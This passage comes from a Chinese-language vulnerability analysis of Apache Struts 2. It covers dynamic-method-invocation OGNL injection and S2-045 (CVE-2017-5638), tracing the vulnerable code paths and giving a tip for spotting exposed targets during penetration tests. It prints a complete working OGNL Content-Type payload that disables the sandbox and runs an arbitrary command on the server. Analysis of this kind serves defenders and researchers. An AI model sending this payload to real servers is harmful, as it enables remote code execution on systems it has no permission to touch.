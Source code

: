 这个漏洞需要开启动态方法调用，才能支持method前缀：

```xml
<constant name="struts.enable.DynamicMethodInvocation" value="true" />
```

在 `org.apache.struts2.dispatcher.mapper.DefaultActionMapper#handleSpecialParameters(HttpServletRequest, ActionMapping)` 中将 `method:xxxxx` 的Ognl表达式部分添加到ActionMapping的method属性：

![image-20210816170503578](/media/image-20210816170503578.png)

后续在 `com.opensymphony.xwork2.DefaultActionInvocation#invokeAction(Object, ActionConfig)` 取出并进行Ognl表达式解析：

![image-20210816170730290](/media/image-20210816170730290.png)

RCE证明：

![image-20210816162313949](/media/image-20210816162313949.png)

**如果在渗透过程中，发现类似： `?student!add.action` 的链接，那么靶机必然开了动态方法调用。**

## S2-045

影响版本：Struts 2.3.5 - Struts 2.3.31, Struts 2.5 - Struts 2.5.10

CVE编号：CVE-2017-5638

POC如下：

```java
Content-Type: %{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='calc').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}.multipart/form-data;
```

漏洞的产生原因主要是在使用基于Jakarta插件的文件上传功能时，如果攻击者使用异常的 `Content-Type` 值，在 `org.apache.struts2.dispatcher.multipart.JakartaMultiPartRequest#parse(HttpServletRequest request, String saveDir)` 中会引发异常错误，并抛出一个 `LocalizedMessage` 错误：

![image-20210816174039754](/media/image-20210816174039754.png)

后续在 `org.apache.struts2.interceptor.FileUploadInterceptor#intercept(ActionInvocation invocation)` 处理异常：

```java
if (multiWrapper.hasErrors()) {
    Iterator i$ = multiWrapper.getErrors().iterator();

    while(i$.hasNext()) {
        LocalizedMessage error = (LocalizedMessage)i$.next();
        if (validation != null) {
            validation.addActionError(LocalizedTextUtil.findText(error.getClazz(), error.getTextKey(), ActionContext.getContext().getLocale(), error.getDefaultMessage(), error.getArgs()));
        }
    }
}
```
